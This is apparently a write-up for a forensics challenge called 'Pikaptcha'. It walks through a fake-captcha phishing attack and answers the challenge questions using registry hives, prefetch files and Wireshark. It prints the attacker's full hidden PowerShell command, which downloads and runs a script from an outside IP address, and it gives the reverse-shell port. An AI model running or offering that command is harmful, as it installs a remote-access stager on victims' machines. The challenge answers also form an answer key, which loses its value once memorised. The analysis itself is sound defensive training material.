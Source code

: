 # Pikaptcha

#web #windows #registry #wireshark

## Speech
> Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

## Analysis

## Questions
1. It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.
    > powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"
    - In the **NTUSER.DAT** of our user, in the **runmru** registry key
2. At what time in UTC did the malicious payload execute?
    > 2024-09-23 05:07:45
    - Can get it in the same registry key as before or just using the powershell prefetch file (use PECMD and Timeline explorer)
3. The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?
    > 579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE
    - In the **pcapng** file, we know the name of the downloaded file from question 1, we can just extract HTTP object to recover this file and check his hash
4. To which port did the reverse shell connect?
    > 6969
    - We have the powershell script, just by looking at the first line we have the connection to the C2
5. For how many seconds was the reverse shell connection established between C2 and the victim's workstation?
    > 403
    - In **wireshark** Filter on the port 6969 and count the seconds elapsed between the first and the last packet
6. Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?
    > stageClipboard
    - In **wireshark** find the HTTP GET request towerd "/" of the first malicious IP and follow the HTTP stream to get the code of the page, then at the end we have a javascript script and in this code we can find the command from question 1 which is copied in the clipboard by the script.